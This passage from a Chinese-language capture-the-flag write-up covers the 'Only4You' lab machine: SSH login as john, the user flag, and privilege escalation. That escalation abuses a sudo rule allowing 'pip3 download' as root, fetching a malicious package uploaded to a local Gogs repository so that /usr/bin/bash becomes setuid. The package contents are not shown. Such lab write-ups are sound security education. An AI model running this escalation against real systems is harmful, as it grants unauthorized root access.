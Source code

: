 不过突然想起来SSH，毕竟家目录有他。本地端口这边打太久了都要忘了这回事……

## SSH登陆

```bash
Last login: Tue Apr 18 07:46:32 2023 from 10.10.14.40
john@only4you:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
```



## flag: user

```bash
john@only4you:~$ cat user.txt 
94ad……e03a
```


## Privilege Escalation

有密码的用户，上来先看看 `sudo -l`：
```bash
john@only4you:~$ sudo -l 
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

有通配符，较可疑。  
不过突破口其实是在前半部分的 `pip3 download`，我们可以谷歌找到这篇文章：[Malicious Python Packages and Code Execution via pip download](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)

根据文章指示构建一个tar.gz文件。  
然后在Gogs新建一个仓库，正好之前发现john用户可以用，将tar.gz文件上传。


运行：  
*靶机会自动清理仓库的样子*  
*下载仓库的tar.gz文件注意要选择“raw”*

```bash
john@only4you:~$ ls -l /usr/bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
john@only4you:~$ sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
     - 2.7 kB 8.2 MB/s
  Saved ./this_is_fine_wuzzi-0.0.1.tar.gz
Successfully downloaded this-is-fine-wuzzi
john@only4you:~$ ls -l /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
```
